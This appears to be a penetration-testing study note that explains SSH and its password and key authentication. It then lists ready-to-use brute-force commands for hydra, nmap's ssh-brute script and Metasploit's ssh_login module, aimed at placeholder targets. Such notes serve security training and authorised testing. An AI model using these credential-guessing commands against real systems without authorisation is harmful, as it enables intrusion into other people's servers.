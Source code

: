 # SSH

# Explanation

- SSH (Secure Shell) is a remote administration protocol that offers encryption and is the successor to Telnet.

- It is typically used for remote access to servers and systems.

- SSH uses TCP port 22 by default, however, like other services, it can be configured to use any other open TCP port.

- SSH authentication can be configured in two ways :
    - Username & password authentication
    - Key based authentication

- In the case of username and password authentication, we can perform a brute-force attack on the SSH server in order to identify legitimate credentials and consequently gain access to the target system.

# SSH brute force attack

```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <target> -t 4 ssh
```

```
nmap --script ssh-brute --script-args userdb=/root/users.txt -p 22 <target>
```

```
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 > set RHOSTS <target>
msf6 > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf6 > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf6 > set VERBOSE true
msf6 > sessions
msf6 > sessions -i 1
whoami
```

# SSH commands

```
ssh root@<target>
```
